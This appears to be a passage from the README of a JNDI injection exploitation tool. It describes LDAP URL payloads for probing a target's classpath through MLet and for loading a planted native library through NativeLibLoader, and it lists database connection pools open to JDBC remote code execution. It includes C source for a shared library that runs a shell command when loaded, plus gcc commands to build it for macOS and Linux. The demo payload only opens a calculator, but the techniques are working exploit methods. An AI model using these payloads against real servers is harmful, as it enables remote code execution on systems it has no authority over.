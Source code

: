 ### MLet

Detect classes in classpath via MLet

If the class `com.example.TestClass` exists, the HTTP server will receive a `/com/example/TestClass_exists.class` request

```bash
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

### NativeLibLoader

Load native library on the target server via NativeLibLoader

You need to write a dll/so/dylib to the target machine in advance by other methods (e.g. file upload)

Please note that the path passed in is an absolute path and cannot contain the file extension

For example: if `/tmp/evil.so` exists on the server, the path is `/tmp/evil`

```bash
ldap://127.0.0.1:1389/NativeLibLoader/<base64-url-encoded-path-to-native-library>
```

source code of the native library, written in C

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("open -a Calculator");
}
```

compile

```bash
# macOS
gcc -shared -fPIC exp.c -o exp.dylib

# Linux
gcc -shared -fPIC exp.c -o exp.so
```

### JDBC RCE

Support JDBC RCE for the following database connection pools

- Commons DBCP
- Tomcat DBCP
- Tomcat JDBC
- Alibaba Druid
- HikariCP
